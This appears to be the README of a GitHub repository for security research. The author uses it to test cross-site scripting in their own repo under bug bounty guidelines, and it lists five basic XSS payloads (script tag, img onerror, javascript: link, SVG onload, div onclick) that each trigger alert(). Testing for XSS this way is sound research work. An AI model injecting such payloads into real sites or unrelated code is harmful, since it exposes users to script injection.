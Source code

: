 # xss-testing-repo
A test repository for security research purposes - testing XSS within my own repo as per GitHub bug bounty guidelines

## XSS Test Payloads

1. Basic script tag: 
<script>alert(1)</script>

2. Event handler in image tag: 
<img src="x" onerror="alert(2)">

3. JavaScript in link: 
<a href="javascript:alert(3)">Click me</a>

4. SVG payload: 
<svg/onload=alert(4)>

5. Inline event handler: 
<div onclick="alert(5)">Click here</div>

